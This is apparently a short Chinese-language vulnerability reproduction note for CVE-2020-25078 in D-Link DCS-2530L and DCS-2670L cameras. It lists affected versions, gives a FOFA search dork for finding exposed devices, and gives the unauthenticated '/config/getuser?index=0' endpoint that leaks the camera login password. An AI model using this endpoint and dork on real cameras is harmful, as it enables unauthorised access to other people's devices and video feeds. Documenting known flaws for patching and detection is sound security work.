




# 影响范围：
D-Link DCS-2530L <1.06.01 Hotfix
DCS-2670L<= 2.02
# CVE编号
CVE-2020-25078
# FOFa dork：
app="D_Link-DCS-2530L"  
# 漏洞复现：
登录页面：

通过访问漏洞接口可以获得摄像头登陆密码。  
漏洞接口：  
```
/config/getuser?index=0
```
 
成功登录：
 
使用脚本进行检测：  



